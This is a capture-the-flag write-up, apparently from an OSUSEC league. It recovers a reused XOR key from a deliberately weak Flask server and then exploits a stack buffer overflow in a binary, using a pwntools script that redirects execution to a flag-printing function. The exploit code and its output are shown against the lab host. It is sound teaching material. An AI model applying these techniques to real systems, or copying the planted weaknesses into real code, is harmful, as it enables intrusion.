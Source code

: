 # many_time_pad

For this challenge, we are giving a link to a web page.  Going to it, we are greeted with this:
[img](img/1.png)

They also give us the source code for the web server:

```python
from app import app
from app import cfg
from flask import render_template,request,redirect,make_response,send_file

#serve index.html
@app.route("/")
def index():
    return render_template("index.html")

#encrypt messages that are POSTed to /encrypt
@app.route("/encrypt", methods=["POST"])
def encrypt():
    #truncate message if longer than 256 bytes, convert to byte string
    plaintext = request.form.get("message")[:256].encode()
    #pad message with \xff bytes
    plaintext += b'\xff' * (256 - len(plaintext))
    #xor byte string with secret key
    ciphertext = bytes([plaintext_byte ^ key_byte for plaintext_byte, key_byte in zip(plaintext, cfg.secret_byte_string)])
    #put the ciphertext in a response header
    resp = make_response(render_template("index.html"))
    resp.headers["ciphertext"] = repr(ciphertext)
    return resp

#send server source code to those who request it
@app.route("/source")
def source():
    return send_file("./views.py")

#secret admin page, the URL is the secret key so it is secure
@app.route("/" + cfg.secret_byte_string.decode())
def win():
    return(render_template("win.html"))
```

Looking though the source code, it looks like our goal is to find `secret_byte_string`, as that will tell us the path to the admin site.  We also see how the ciphertext is generated.  It's an XOR between each byte of the plaintext we provide with the secret key.  So with the properties of XOR, if we know the plaintext and the ciphertext that would be generated, we can find the secret key!

We see here that our plaintext gets padded with `\xff` to get to 256 bytes, so if we just don't input anything into the field box, then we know our plaintext is `\xff\xff\xff ... ` 256 times. So let's try that, and look at the response header we get from sending it.

[img](img/2.png)

Alright, looks like we have the ciphertext, now to just XOR it with our plaintext. Xoring and coverting to ascii we get out path:  
`if-you-tried-to-dirbuster-this-route-I-will-forward-you-the-OSUSEC-AWS-bill-never-gonna-give-you-up-never-gonna-let-you-down-never-gonna-run-around-and-desert-you-never-gonna-make-you-cry-never-gonna-say-goodbye-never-gonna-tell-a-lie-and-hurt-you-12345678`

We are then given a site with shows us how to set up our enviroment to do a pwn challenge along with a baby pwn to solve.  We are even given some skeleton code that we can use for the exploit.

Downloading the binary and disassembling it through gdb, we can immediatly see a vulnerability.  At `main+53`, we have a call to fgets, which would allow us to perform a buffer overflow attack.

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x000000000040071b <+0>:     push   rbp
   0x000000000040071c <+1>:     mov    rbp,rsp
   0x000000000040071f <+4>:     sub    rsp,0x10
   0x0000000000400723 <+8>:     mov    eax,0x0
   0x0000000000400728 <+13>:    call   0x400692 <check_the_key>
   0x000000000040072d <+18>:    test   eax,eax
   0x000000000040072f <+20>:    jne    0x40075c <main+65>
   0x0000000000400731 <+22>:    lea    rdi,[rip+0x108]        # 0x400840
   0x0000000000400738 <+29>:    call   0x400520 <puts@plt>
   0x000000000040073d <+34>:    mov    rdx,QWORD PTR [rip+0x20090c]        # 0x601050 <stdin@@GLIBC_2.2.5>
   0x0000000000400744 <+41>:    lea    rax,[rbp-0x10]
   0x0000000000400748 <+45>:    mov    esi,0x20
   0x000000000040074d <+50>:    mov    rdi,rax
   0x0000000000400750 <+53>:    call   0x400540 <fgets@plt>
   0x0000000000400755 <+58>:    mov    eax,0x0
   0x000000000040075a <+63>:    jmp    0x40075e <main+67>
   0x000000000040075c <+65>:    nop
   0x000000000040075d <+66>:    nop
   0x000000000040075e <+67>:    leave
   0x000000000040075f <+68>:    ret
End of assembler dump.
```

We can also open up the binary in Ghidra and see that the buffer we need to fill is 16 bytes long. Perfect, what can we do with this though?  Looking at the functions, we see something promising:

```
gdb-peda$ info functions

0x0000000000400647  print_the_flag
```

We also need to pass in our key we got from the web challenge portion to get to this point, so we need to remember to account for that.
So our current plan of attack sounds like:
1. Pass in our key
2. Fill the buffer up with 16 byte
3. Overwrite EBP with 8 bytes
4. Overwrite EIP with the address of `print_the_flag`
5. Win

In python, that looks like:

```python
from pwn import *
buffer_size = 16
addr_of_printflag_function = 0x0000000000400647
secret_key_string = "if-you-tried-to-dirbuster-this-route-I-will-forward-you-the-OSUSEC-AWS-bill-never-gonna-give-you-up-never-gonna-let-you-down-never-gonna-run-around-and-desert-you-never-gonna-make-you-cry-never-gonna-say-goodbye-never-gonna-tell-a-lie-and-hurt-you-12345678"

p = remote("ctf-league.osusec.org", 31309)

print(p.recv())

print("sending the key string: " + secret_key_string)
p.send(secret_key_string)
print("response: " + p.recv().decode())

payload = b'A' * buffer_size

payload += b'B' * 8

payload += p64(addr_of_printflag_function)
print(b"payload: " + payload)
p.send(payload)
```

And running it we get the flag!!!

```
cameron@LAPTOP-PEKGUHAN:/mnt/c/Users/Cameron McCawley/Desktop/mtp$ python2 exploit.py
[+] Opening connection to ctf-league.osusec.org on port 31309: Done
enter the secret key from the web portion of this challenge
sending the key string: if-you-tried-to-dirbuster-this-route-I-will-forward-you-the-OSUSEC-AWS-bill-never-gonna-give-you-up-never-gonna-let-you-down-never-gonna-run-around-and-desert-you-never-gonna-make-you-cry-never-gonna-say-goodbye-never-gonna-tell-a-lie-and-hurt-you-12345678
response:

payload: AAAAAAAAAAAAAAAABBBBBBBBG\x06\x00\x00\x00
[*] Switching to interactive mode
overflow my buffer and return to the print_the_flag function
osu{L0N6_W01f_H^x0r}
```


